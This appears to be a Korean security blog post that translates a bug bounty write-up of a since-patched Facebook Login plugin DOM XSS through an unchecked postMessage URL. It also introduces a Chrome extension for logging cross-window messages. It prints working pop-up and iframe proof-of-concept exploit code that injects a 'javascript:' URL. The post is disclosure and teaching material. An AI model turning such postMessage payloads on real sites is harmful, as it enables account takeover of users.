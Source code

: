 ```yaml
---
layout: post
title:  "iframe broker & Story of Facebook DOM XSS"
author: "jeong.su"
comments: true
tags: [web]
---
```


라온화이트햇 핵심연구팀 최정수


이 글은 [Vinoth Kumar](https://vinothkumar.me/)가 지난 4월 Facebook의 DOM XSS를 발견하여 제보하고 2만 달러의 포상금을 받은 [게시글](https://vinothkumar.me/20000-facebook-dom-xss/)을 번역한 내용이 포함되어 있습니다. 추가로 해당 취약점을 찾기 위해 [Vinoth Kumar](https://vinothkumar.me/)가 개발한 Iframe과 Cross Window communications 로그를 쉽게 확인 할 수 있는 크롬 익스텐션을 사용하고 어떻게 적용할 수 있을지 고민했습니다.

---

# iframe broker

---

iframe broker는  [Vinoth Kumar](https://vinothkumar.me/)가 Cross Window Communication 로그를 쉽게 확인하기 위해서 작성한 Chrome Extension 입니다.

해당 도구의 간단한 원리는 message를 후킹하여 보여주는 방식입니다

Javascript는 아래와 같이 간단한 스크립트로 후킹할 수 있습니다.

```jsx
var origin_parse = window.JSON.parse;

window.JSON.parse = function(arg){
/* Something Do It! */
/* ex) console.log(arg) */
return origin_parse(arg);
}
```

iframe broker의 사용법은 아래와 같습니다.

```bash
git clone https://github.com/vinothsparrow/iframe-broker
```

우선 git clone 명령어를 통해 특정 폴더에 iframe-broker를 받아줍니다.

![/assets/bd2f2d57-db96-4a00-8b4b-95448a489543/9680797e-d1ef-4857-b3e2-0da9ee7ab169.png](/assets/bd2f2d57-db96-4a00-8b4b-95448a489543/9680797e-d1ef-4857-b3e2-0da9ee7ab169.png)

Chrome Extension 추가를 위해 개발자 모드 옵션을 활성화 시켜줍니다. 해당 옵션을 활성화 시켜주게되면 `압축해제된 확장 프로그램을 로드합니다.` 버튼이 생기며 클릭을 통해 clone 해준 iframe-broker 폴더를 선택해줍니다.

![/assets/85b6ceaf-3565-47cd-b65f-12aa7cb8b535/5b9b6572-8ba4-4984-a5d4-a72b0f832085.png](/assets/85b6ceaf-3565-47cd-b65f-12aa7cb8b535/5b9b6572-8ba4-4984-a5d4-a72b0f832085.png)

Iframe Broker가 정상적으로 로드된 것을 확인 할 수 있습니다.

![/assets/bd53c735-b1b8-40f8-a86c-bfd2d2a7abd7/a391c04c-77cb-4b68-aab7-690a51b4c54d.png](/assets/bd53c735-b1b8-40f8-a86c-bfd2d2a7abd7/a391c04c-77cb-4b68-aab7-690a51b4c54d.png)

위와 같이 Chrome Extension을 통해 Domain간 통신하는 메세지를 쉽게 확인 할 수 있으며 클라이언트 사이드의 취약점을 찾는데 편리한 도구라는 생각이듭니다. 아래는 해당 Chrome Extension 개발자가 개발 후 Extension을 사용하면서 직접 취약점을 찾은 내용을 번역했습니다.

# Story of [$20000 Facebook DOM XSS](https://vinothkumar.me/20000-facebook-dom-xss/)

---

> window.postMessage() method를 사용하면 생성 된 페이지와 팝업 사이 또는 페이지와 페이지에 포함된 iframe 사이와 같은 Window 객체 간의 cross-origin 통신을 안전하게 할 수 있습니다. - [Mozilla postMessage Documentation](https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage)

postMessage 및 도메인 간 통신에 대해 더 알고 싶다면 아래 문서를 읽는 것이 좋습니다.

- [How cross window/frame communication happens in Javascript](https://javascript.info/cross-window-communication)
- [https://labs.detectify.com/2016/12/08/the-pitfalls-of-postmessage/](https://labs.detectify.com/2016/12/08/the-pitfalls-of-postmessage/)
- [https://ngailong.wordpress.com/2018/02/13/the-mystery-of-postmessage/](https://ngailong.wordpress.com/2018/02/13/the-mystery-of-postmessage/)

## Background

> postMessage를 통한 DOM XSS는 과소 평가 된 취약점이며 많은 버그바운티 헌터들에게는 눈에 띄지 않는 취약점입니다.

최근에 open dashboards 및 credentials 취약점을 찾는 대신 클라이언트 쪽 취약점을 찾기 시작했습니다.

([HackerOne에 리포트된 보고서](https://hackerone.com/vinothkumar)를 본다면 대부분 나의 리포트는 open dashboard 또는 Github credential leak 입니다.) 

처음에는 XSSI, JSONP 및 postMessage 관련 된 보안 문제를 찾기 시작했습니다. 그러나 XSSI 및 JSONP 취약점은 매우 드물며 [SameSite 쿠키](https://blog.reconless.com/samesite-by-default/)가 도입 된 이후 이 취약점은 사라질 것입니다. 따라서 postMessage 취약점을 살펴 보는 데 집중했습니다. postMessage 취약점은 주로 보안 연구원이 대부분 무시하지만 디버깅이 쉽고 방화벽을 우회 할 필요가 없습니다.

또한 디버깅을 더 쉽게하기 위해 페이지에서 발생하는 cross window communication의 view/log를 위한 [Chrome extension을 개발](https://github.com/vinothsparrow/iframe-broker) 했습니다.

일반적으로 웹 사이트는 위젯, 플러그인 또는 웹 SDK에서 iframe 통신을 사용합니다. 따라서 페이스북의 iframe 보안 문제를 찾으려고 시작하자마자 [https://developers.facebook.com](https://developers.facebook.com/)으로 이동하여 Facebook의 third-party 플러그인을 보기 시작했습니다.

그리고 cross-domain 통신을 위해서 `Facebook Login SDK for JavaScript`는 `v6.0/plugins/login_button.php`에서 proxy iframe을 만들며 proxy frame에서는 `Continue with Facebook` 버튼을 렌더링 해줍니다. 여기서 흥미로운 점은 javascript SDK가 proxy frame에 버튼의 클릭 URL이 포함 된 초기화 페이로드를 전송 한다는 것입니다.

로그인 SDK의 흐름은 아래와 같습니다.

```jsx
Third-Party website + (Facebook Login SDK for JavaScript)
```

↓

```jsx
<iframe src='https://www.facebook.com/v6.0/plugins/login_button.php?app_id=APP_ID&button_type=continue_with&channel=REDIRECT_URL&sdk=joey'>
</iframe>
```

↓

```jsx
// Facebook Javascript SDK는 초기화 payload를 iframe proxy에게 보냅니다.
iframe.contentWindow.postMessage({"xdArbiterHandleMessage":true,"message":{"method":"loginButtonStateInit","params":JSON.stringify({'call':{'id':'INT_ID',
'url':'https://www.facebook.com/v7.0/dialog/oauth?app_id=APP_ID&SOME_OTHER_PARAMS',
'size':{'width':10,'height':10},'dims':{'screenX':0,'screenY':23,'outerWidth':1680,'outerHeight':971'screenWidth':1680}}})},"origin":"APP_DOMAIN"}, '*')
```

↓

```jsx
// 유저가 Login with Facebook 버튼을 클릭하면 proxy iframe에서 특정 URL을 open 합니다.
window.open('https://www.facebook.com/v7.0/dialog/oauth?app_id=APP_ID')
```

↓

```jsx
// 팝업 윈도우는 accesstoken과 signed-request를 third-party website에게 postMessage를 사용하여 보냅니다.
window.opener.parent.postMessage(result, origin)
```

해당 초기화 payload를 주의 깊게 살펴보면 SDK가 Facebook 플러그인 iframe으로 전송합니다. url 파라미터는 i라는 변수에 저장 되며 버튼이 클릭 되어 이벤트가 트리거 될 때 아래 함수가 실행됩니다.

![/assets/69ede5d3-8ba8-4af5-9ac8-fd925cbbe6d8/3dd7a08c-1d2a-4348-b669-0f7647a99b6b.png](/assets/69ede5d3-8ba8-4af5-9ac8-fd925cbbe6d8/3dd7a08c-1d2a-4348-b669-0f7647a99b6b.png)

```jsx
i.url = i.url.replace(/cbt=\d+/, "cbt=" + a);
a = window.open(i.url, i.id, b("buildPopupFeatureString")(i));
```

위 Javascript 코드를 보았을 때 나는 "무언가 왔구나! 취약점이 내게 왔구나! 😉"를 느꼈습니다.

왜냐하면 Javascript 코드에는 URL/Scheme 유효성 검사가 존재하지 않았습니다. 따라서 아래와 같이 DOM XSS를 할 수 있었습니다.

`window.open('javascript:alert(document.domain)')`

그래서 우리가 `url:'javascript:alert(document.domain)'`와 같은 페이로드를 보내는 경우 받는 사람은 iframe이 [`https://www.facebook.com/v6.0/plugins/login_button.php`](https://www.facebook.com/v6.0/plugins/login_button.php)를 방문하고 사용자가 `Continue With Facebook`버튼을 클릭하게 되면  [facebook.com](http://facebook.com/) 도메인에서 `javascript:alert(document.domain)`와 같은 Javascript가 실행됩니다. 

## Exploiting the Iframe

위 보안 이슈를 통해 익스플로잇 하는 방법은 2가지가 있습니다.

### 1. Pop-up Method

```jsx
<script>   
   var opener = window.open("https://www.facebook.com/v6.0/plugins/login_button.php?app_id=APP_ID&auto_logout_link=false&button_type=continue_with&channel=REDIRECT_URL&container_width=734&locale=en_US&sdk=joey&size=large&use_continue_as=true","opener", "scrollbars=no,resizable=no,status=no,location=no,toolbar=no,menubar=no,width=500,height=1");
   
   setTimeout(function(){
        var message = {"xdArbiterHandleMessage":true,"message":{"method":"loginButtonStateInit","params":JSON.stringify({'call':{'id':'123','url':'javascript:alert(document.domain);','size':{'width':10,'height':10},'dims':{'screenX':0,'screenY':23,'outerWidth':1680,'outerHeight':971,'screenWidth':1680}}})},"origin":"ORIGIN"};
        opener.postMessage(message, '*');
    },'4000');
</script>
```

### 2. Iframe Method

`X-Frame-Options` 또는 CSP `frame-ancestors` 헤더가 누락 되었으므로 이 페이지는 공격자의 페이지에 쉽게 포함될 수 있습니다.

```jsx
<script>
function fbFrameLoaded() {
  var iframeEl = document.getElementById('fbframe');
  var message = {"xdArbiterHandleMessage":true,"message":{"method":"loginButtonStateInit","params":JSON.stringify({'call':{'id':'123','url':'javascript:alert(document.domain);','size':{'width':10,'height':10},'dims':{'screenX':0,'screenY':23,'outerWidth':1680,'outerHeight':971,'screenWidth':1680}}})},"origin":"ORIGIN"};
  iframeEl.contentWindow.postMessage(message, '*');
};
</script>
<iframe id="fbframe" src="https://www.facebook.com/v6.0/plugins/login_button.php?app_id=APP_ID&auto_logout_link=false&button_type=continue_with&channel=REDIRECT_URL&container_width=734&locale=en_US&sdk=joey&size=large&use_continue_as=true" onload="fbFrameLoaded(this)"></iframe>
```

## Fix

Facebook은 `url` 파라미터에 정규식 검사를 추가하여 domain과 schema가 존재하는지 확인하는 방법으로 패치했습니다.

```jsx
d = b("isFacebookURI")(new (g || (g = b("URI")))(c.call.url)),
j = c.call;
d || (j.url = b("XOAuthErrorController").getURIBuilder().setEnum("error_code", "PLATFORM__INVALID_URL").getURI().toString())
```

## Proof of Concept

[https://youtu.be/KAnuFy2F7QA](https://youtu.be/KAnuFy2F7QA)

## Impact

잘못된 post message 설정 때문에 누군가는 공격자의 웹세이트에 접속하고 페이스북으로 로그인하기 버튼을 클

릭함으로써 [facebook.com](http://facebook.com) 도메인에 XSS가 발생하고 **한 번의 클릭 만으로 계정을 탈취** 할 수 있습니다.
